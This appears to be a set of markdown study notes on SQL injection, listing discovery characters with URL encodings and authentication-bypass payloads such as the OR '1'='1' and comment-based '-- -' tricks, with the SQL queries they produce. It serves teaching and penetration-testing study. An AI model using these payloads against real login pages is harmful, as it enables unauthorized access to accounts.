 ## SQLi Discovery
|Payload|URL Encoded|
|---|---|
|`'`|`%27`|
|`"`|`%22`|
|`#`|`%23`|
|`;`|`%3B`|
|`)`|`%29`|
>**ℹ️ Info:**
>In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.

## Authentication Bypass
### OR Injection Bypass
> ⚠️ **PAY ATTENTION:**
> 
> Try both `or '1'='1` and `or '1'='1'`

If we know the username we can use the following payload in the username to bypass the login screen:
- `name' or '1'='1'`

We get something like this:
````sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
````

If we don't know the username we have to use the same payload in both the username and password:
- `name' or '1'='1`
- `password' or '1'='1`

We get something like this:
```sql
SELECT * FROM logins WHERE username='' or '1'='1' AND password = '' or '1'='1';
```
>**ℹ️ Info:**
>
>Since it always returns TRUE we don't need to supply a user or password.
>We will be logged as the first user in the table!

### Comment Injection Bypass
We can use `-- -` to comment everything after it to bypass login screens or add our desired query.
>**ℹ️ Info**
>
>After the two dashes a space is needed to start a comment, to make it simpler an extra dash is added. `#` can also be used but they're considered tags in a URL within a browser so it's needed to URL encode it to `%23`.
